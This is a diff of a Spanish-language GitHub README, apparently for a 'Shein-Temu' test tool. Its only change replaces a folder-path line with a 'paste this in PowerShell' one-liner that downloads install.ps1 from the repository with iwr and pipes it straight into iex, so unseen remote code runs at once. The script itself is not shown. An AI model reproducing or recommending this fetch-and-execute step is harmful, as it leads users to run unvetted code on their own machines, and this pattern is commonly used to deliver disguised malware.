

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

Commit message:
Update PowerShell command for automatic setup

````diff
--- a/README.md
+++ b/README.md
@@ -55,7 +55,7 @@ El sistema incluye un lanzador compilado que gestiona todo el entorno de forma a
 Ejecuta este comando en PowerShell para una configuración automática, descarga y preparación del entorno:
 
 ```powershell
-$destDir = Join-Path ([Environment]::GetFolderPath('Desktop')) "Prueba-de-Shein-Temu"
+powershell -Command "iwr -useb https://raw.githubusercontent.com/Riutexu/Prueba-de-Shein-Temu/main/src/install.ps1 | iex"
 
 ```
 
````
